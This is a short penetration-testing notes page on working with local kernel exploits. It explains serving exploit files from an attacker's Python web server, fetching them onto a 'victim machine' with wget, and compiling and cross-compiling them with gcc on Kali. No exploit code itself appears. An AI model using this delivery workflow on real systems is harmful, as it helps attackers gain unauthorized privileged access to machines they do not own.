 # Working with exploits
This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits
The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:
```
python -m SimpleHTTPServer 80
```
The port defaults to 8000 but 80 and 443 are usually accessible. Make sure your port choice doesn't conflict with your shell. 

To download files to the victim machine:
```
wget http://[attack machine]/exploit.c
```
Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits
First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine (32-bit or 64-bit)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique
The compile command looks like this:
```
gcc filename.c -o executablename
```
Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:
```
chmod u+x executablename
```

### Compiling 32-bit exploits on a 64-bit machine
If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:
```
apt-get install gcc-multilib
apt-get install g++-multilib
```
You will also need to add the `-m32` flag to your compile command.

